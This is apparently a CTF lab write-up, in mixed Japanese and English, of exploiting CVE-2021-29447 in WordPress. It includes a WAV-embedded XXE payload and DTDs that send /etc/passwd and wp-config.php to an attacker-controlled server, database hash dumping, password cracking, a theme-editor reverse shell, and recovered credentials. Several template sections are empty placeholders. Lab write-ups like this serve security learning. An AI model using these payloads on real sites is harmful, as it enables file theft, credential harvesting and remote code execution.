

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | xxe, arbitrary-file-read, credential-harvest |
| Privilege Escalation Path | Not implemented (no record) |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)

```

## Nmap
```

### Not implemented (not recorded in PDF)

```

### 2. Local Shell

---

この検証は `CVE-2021-29447`（WordPressのメディア処理におけるXXE）を起点に、
`wp-config.php` からDB資格情報を回収し、最終的に管理画面経由でRCEを成立させる流れです。

## 2-1. WAV(iXML) に XXE ペイロードを埋め込む

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSERVERIP:9999/evil.dtd'"'"'>%remote;%init;%trick;]>' > payload.wav
cat payload.wav
```

```
RIFF�WAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.18.55.118:9999/evil.dtd'>%remote;%init;%trick;]>
```

## 2-2. 外部DTDを用意してファイル読み取り

`/etc/passwd` を抜く場合:

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:9999/?p=%file;'>" >
```

`wp-config.php` を抜く場合:

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:9999/?p=%file;'>" >
```

待受サーバ:

```
php -S 0.0.0.0:9999
```

WordPress のメディアアップロードから `payload.wav` を送信し、
待受側で返ってくるデータをデコードして `wp-config.php` のDB情報を取得します。

## 2-3. DBへ接続してユーザハッシュを取得

```
mysql -u thedarktangent -p -h 10.10.42.190
```

```
show databases;
use wordpressdb2;
show tables;
SELECT * FROM wptry_users;
SELECT ID, user_login, user_pass FROM wptry_users WHERE ID = 1;
```

```
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)
Database: wordpressdb2
Extracted hash: $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```

## 2-4. ハッシュクラック

```
john wp-pass.hash --wordlist=~/thm/rockyou.txt
```

```
teddybear (?)
```

## 2-5. WordPress管理画面からRCE

1. `corp-001 / teddybear` で WordPress 管理画面へログイン
2. `Appearance > Theme Editor` を開く
3. `Twenty Nineteen` テーマの `404.php` にリバースシェルPHPを埋め込む
4. 下記でトリガー

```
curl http://IP address/wp-content/themes/twentynineteen/404.php
```

補足: PDFメモでは `https://reverse.7sec.pw` で生成したリバースシェルコードを使用。

### No record

```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

PDF recordings do not include local privilege escalation steps, so they are not performed here.
Next time you add, please add the confirmation log in the following order: `sudo -l` / SUID / cron / capabilities / writable script.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
MariaDB
- username: thedarktangent
- password: (wp-config.php に記載の値)

WordPress
- username: corp-001
- password: teddybear

Hash
- $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```

## Lessons Learned / Key Takeaways

### 4.Overview

---



### CVE Notes

- **CVE-2021-29447**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## References

- nmap
- rustscan
- john
- sudo
- curl
- cat
- base64
- php
- CVE-2021-29447
- GTFOBins
